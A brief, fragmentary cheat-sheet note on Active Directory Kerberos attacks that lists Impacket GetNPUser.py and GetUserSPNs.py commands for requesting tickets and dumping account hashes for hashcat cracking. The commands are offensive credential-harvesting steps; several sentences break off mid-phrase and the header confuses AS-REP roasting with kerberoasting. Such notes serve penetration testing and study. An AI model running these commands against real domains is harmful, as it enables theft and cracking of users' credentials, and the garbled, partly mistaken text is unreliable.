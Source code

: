 
For kerberoasting (Capture TGT account's hash)
Queries target domain for users with 'Do not require Kerberos

hashcat -m 13100

## used for: 
- This script will attempt to list and get TGTs for those users that have the property


## usage:  
```
GetNPUser.py DOMAIN.local/USERNAME PASSWORD or -no-pass 
GetNPUser.py -dc-ip IP 'DOMAIN' -request 
GetNPUser.py -dc-ip IP -request 'DOMAIN' -format hashcat  # dump
GetUserSPNs.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```
---
Tags: #AD #kerberos #impackets #kerberostaing #kerberos